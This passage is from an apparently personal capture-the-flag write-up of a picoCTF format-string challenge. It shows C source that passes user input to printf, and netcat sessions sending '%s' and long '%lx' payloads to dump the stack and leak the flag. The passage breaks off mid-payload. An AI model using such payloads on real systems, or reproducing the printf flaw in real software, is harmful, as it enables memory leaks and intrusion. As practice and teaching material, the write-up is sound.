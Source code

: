 ```C
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);
  
  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);
  
  printf("Bye!\n");
  fflush(stdout);
  
  return 0;
}
```

Towards the bottom, there's a `printf` that repeats user inputted data, making it vulnerable to a format string attack to expose the state of the stack. Luckily, the contents of `flag.txt` are loaded into the stack earlier in execution.

The most basic definition of a string is any amount of characters in memory that end with `0x00`. The format designator is `%s`. I first tried to feed `%s` characters to try and expose any cstrings in the stacks, but it didn't yield any useful information:
```bash
┌──(jakemull㉿leman-russ)-[~/ctf/pico/format-string-1]
└─$ nc mimas.picoctf.net 62076
Give me your order and I'll read it back to you:
%s%s%s%s
Here's your order: Here's your order: (null)(null)
Bye!
```
I tried this with a wide range of `%s` designators, and nothing happened. Turns out, the `%s` symbol resolves a pointer on the stack, and then reads it as a string, rather than pulling a string from the stack. We can get around this by pulling the raw bytes from the stack using `%lx`, which prints out the hex representation of the next 64-bit number on the stack. We can get a complete representation of the state of the stack by feeding a truly egregious amount of `%lx` symbols into the program:
```
┌──(jakemull㉿leman-russ)-[~/ctf/pico/format-string-1]
└─$ nc mimas.picoctf.net 62076
Give me your order and I'll read it back to you:
%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,
```